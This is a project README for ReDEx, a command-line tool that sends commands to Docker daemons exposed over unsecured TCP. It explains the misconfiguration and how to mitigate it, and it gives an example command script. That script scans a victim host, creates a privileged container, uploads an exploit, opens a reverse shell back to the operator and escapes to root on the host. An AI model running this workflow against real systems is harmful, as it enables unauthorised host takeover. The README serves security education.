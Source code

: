 # ReDEx - Remote Docker Execution Tool

> **WARNING**: EDUCATION PURPOSE ONLY

> **INFO**: Work In Progress

<video width="200" height="100" src="https://github.com/lmriccardo/redex/assets/32601287/3cf6e63a-5118-4697-b780-f845b709b9ae"></video>

**ReDEx** is tool that can remotely execute Docker commands via the Docker API on a remote host, which Docker Daemon has been exposed on (unsafe) TCP connections. Using actual HTTP (post, get, delete) requests it is possible to create, start, stop, inspect and list containers and images, and so on. However, all of these operations can also be used with malicious intent, in order to exploit the fact that the Daemon is exposed, creating privileged containers and performing so-called *Docker Breakout* techniques and *privilege escalation* on the host machine. 

Honestly, I am sceptical that some of these techniques works nowdays, at least I hope so. This tool is the result of my curiosity and some researches that I have done time ago, on my own. However, this tool is kindly fun, you should give it a try I think. 

*Thank you, and I wish you the best of Hack* !!!

## How much is secure Docker?

When it comes to security, Docker by itself is a safe place to run potentially vulnerable applications, given the fact that all containers are isolated from each others and from the host system. However, Docker is a powerfull tool, and it provides to the user the capability to do everything he want either being safe or not. For example, we can *share* any portion of the host filesystem with the container using volumes or bind mounts. This means that it is possible to mount the entire host filesystem on the container just running `docker run -v /:/path`. Now, inside the container it is possible to alter the mounted filesystem without any restriction, but in particular it bypasses the namespace isolation, leaking a lot of information that an attacker can use to carry out an attack. This is only one example of bad practice. Moreover, also starting container with root capabilities is not suggested. Assuming that a malicious entity has gained access to the container, he can easily install every tool he wants and perform malicious action against the host machine. 

Basically, Docker by itself is secure, however exposing the Docker Daemon both to unsafe connections and to untrusted users, leads to a lot of vulnerabilities being the principal vector for carrying out a lot Docker breakout attacks. If it is required that the Docker Daemon can communicate over a TCP protocols, at least one must be sure to setup a secured version either using the HTTPS encrypted docker, or by putting a secure web proxy in front of it.

## Kind of Scripting

Although ReDEx has been developed to be a CLI application, just like metasploit, there might be some repetead actions that can become boring, or some other that the user might forget to do, in order to correctly execute a *scan* or runs an exploit. For this reason, I decided to implement a simple "scripting" mechanism. It is not real scripting, it is just a way to put all the commands in a single file with extension `.rdx`, that can be loaded and ran into ReDEx. All the commands are executed sequentially, in the same order they appear into the file. In the following an example of a ReDEx command script.

```
% All the comments must go before the command call
set rhost=293.238.232.1
set lhost=232.231.43.12
set lport=4444
set name=breakout

% Scan the RHOST for open ports
scan

% Create a new container
create
lstconts

% Start the container and the attack
start
upload
execute
```

Then, inside the ReDEx CLI it is possible to run it using:

```
>>> : load scripts/script.rdx
>>> : run
>>> : stop
```

What this simple script does is very simple. First it sets some session variables, using the `set` command. In particular it sets the RHOST (remote host, or victim machine that is running Docker), the LHOST (local host IP address), LPORT (local port) and NAME (the name of the container that will be created). Then, it performs a scan to look for open ports in the RHOST, using the `scan` command. The next command, `create`, will create a fully-privileged container in the remote host named with the content of the variable `NAME` that we have previously configured. `lstconts` will just show all the running containers. Then, the `start` command will start the container and `upload` will upload the currently selected exploit into the remote container. Finally, the `execute` command will run, in this case, the *reverse shell handler* on the local host and the connection from the container. Once we have the CLI inside the container, it is possible to run the uploaded exploit and escape from the container, reaching the host system with root privileges.